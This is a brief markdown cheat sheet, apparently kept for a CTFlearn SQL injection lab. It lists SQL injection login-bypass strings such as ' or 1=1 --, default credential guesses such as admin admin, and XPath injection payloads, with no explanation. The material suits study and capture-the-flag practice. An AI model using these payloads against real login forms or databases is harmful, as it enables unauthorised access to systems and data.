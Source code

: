 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
" or 1=1 --
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
